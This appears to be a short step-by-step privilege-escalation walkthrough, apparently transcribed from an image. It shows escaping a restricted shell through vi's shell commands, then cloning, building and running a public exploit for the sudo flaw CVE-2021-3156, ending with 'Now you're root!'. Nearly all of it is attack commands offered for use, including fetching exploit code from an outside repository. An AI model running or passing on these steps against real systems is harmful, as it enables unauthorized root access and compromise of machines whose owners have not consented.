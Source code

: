1. Open vi/vim:

```bash
$ vi
```

2. Set shell and open it:

```bash
:set shell=/usr/bin/bash
:shell
$ export PATH='/usr/bin/'
```

3. Download and run the `sudo exploit`:

```bash
$ git clone https://github.com/blasty/CVE-2021-3156
$ cd CVE-2021-3156/
$ make
$ ./sudo-hax-me-a-sandwich 1
```

4. Now you're root!
